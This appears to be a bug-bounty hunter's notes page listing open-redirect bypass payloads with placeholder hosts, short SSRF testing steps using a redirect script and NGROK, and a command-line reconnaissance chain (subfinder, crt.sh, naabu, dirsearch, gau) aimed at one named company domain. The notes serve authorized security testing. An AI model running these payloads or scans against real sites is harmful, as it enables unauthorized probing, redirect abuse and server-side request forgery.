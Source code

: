 ### Payloads:
``` 
\/yoururl.com
\/\/yoururl.com
\\yoururl.com
//yoururl.com
//theirsite@yoursite.com
/\/yoursite.com
https://yoursite.com%3F.theirsite.com/
https://yoursite.com%2523.theirsite.com/
https://yoursite?c=.theirsite.com/ (use # \ also)
//%2F/yoursite.com
////yoursite.com
https://theirsite.computer/
https://theirsite.com.mysite.com
/%0D/yoursite.com (Also try %09, %00, %0a, %07)
/%2F/yoururl.com
/%5Cyoururl.com
//google%E3%80%82com
```

## SSRF
In scope domain issueing request to an url/endpoint you have defined  
- Looking for API console (typically on dev docs page)
    - typically has freatures that take a url peram to execute code
- Test how handle redirects
- Setting up simple redirect script with XAMPP
    - NGROK to expose it
    - add sleep(time) - see if server hangs out
    - mayber filter only checking parameter value and not the redirect value
    - check if open redirect works
 
### Tools: 
- XAMPP - run php code locally 
- NGROK - public ip 

# Wordlists
seclists - /usr/share/wordlists/seclists
[onelistforall](https://github.com/six2dez/OneListForAll) 

# lostsec methodology
1. `subfinder -dL urls.txt -all -recursive -o new-subdomains.txt`
1. `curl -s https://crt.sh/\?q\=\navan.com\&output\=json | jq -r '.[].name_value' | grep -Po '(\w+\.\w+\.\w+)$' | anew new-subdomains.txt`
1. `cat new-subdomains.txt | httpx-toolkit -l new-subdomains.txt -ports 443,80,8080,8000,8888 -threads 200 > subdomains_alive.txt`
    - httpx-toolkit - crawling/scraping, benchmarking, web app testing, api testing and more
1. `naabu -list new-subdomains.txt -c 50 -nmap-cli 'nmap -sV -sC' -o naabu-full.txt`
    - naabu - port scanner and subdomain enumeration tool
1. `dirsearch -l subdomains_alive.txt -x 600,502,439,404,400 -R 5 --random-agent -t 100 -F -o directory.txt -w ~/OneListForAll/onelistforallshort.txt`
    - ik what it does lol
1. `cat subdomains_alive.txt | gau > params.txt`
    - gau (get all urls) fetches urls form alienvaults open threat exchange
1. `cat params.txt | uro -o filterparam.txt`
    - uro - declutters urls
1. `cat filterparam.txt | grep ".js$" > jsfiles.txt`
    - greps for .js
1. `cat jsfiles.txt | uro | anew jsfiles.txt`
    - anew - appends new files